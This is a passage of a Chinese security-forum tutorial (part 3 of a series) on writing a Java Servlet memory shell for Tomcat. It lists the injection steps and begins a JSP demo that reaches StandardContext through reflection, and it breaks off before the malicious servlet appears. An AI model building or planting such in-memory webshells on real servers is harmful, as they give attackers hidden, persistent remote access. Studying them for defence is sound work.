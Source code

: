 

# 零基础从 0 到 1 掌握 Java 内存马（3） - 先知社区

零基础从 0 到 1 掌握 Java 内存马（3）

- - -

现在开始我们的第三部分~

文章已开源至`Github`，觉得写的不错的话就给个`star`吧~：

> [https://github.com/W01fh4cker/LearnJavaMemshellFromZero](https://github.com/W01fh4cker/LearnJavaMemshellFromZero)

# 三、传统 Web 型内存马

## 3.1 Servlet 内存马

### 3.1.1 简单的 servlet 内存马 demo 编写

根据我们在上面的`2.3`节中的分析可以得出以下结论：

如果我们想要写一个`Servlet`内存马，需要经过以下步骤：

-   找到`StandardContext`
-   继承并编写一个恶意`servlet`
-   创建`Wapper`对象
-   设置`Servlet`的`LoadOnStartUp`的值
-   设置`Servlet`的`Name`
-   设置`Servlet`对应的`Class`
-   将`Servlet`添加到`context`的`children`中
-   将`url`路径和`servlet`类做映射

由以上结论我们可以写出如下内存马`demo`：

```bash
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="javax.servlet.Servlet" %>
<%@ page import="javax.servlet.ServletConfig" %>
<%@ page import="javax.servlet.ServletContext" %>
<%@ page import="javax.servlet.ServletRequest" %>
<%@ page import="javax.servlet.ServletResponse" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<html>
<head>
    <title>MemoryShellInjectDemo</title>
</head>
<body>
<%
    try {
        ServletContext servletContext = request.getSession().getServletContext();
        Field appctx = servletContext.getClass().getDeclaredField("context");
        appctx.setAccessible(true);
        ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
        Field stdctx = applicationContext.getClass().getDeclaredField("context");
        stdctx.setAccessible(true);
        StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```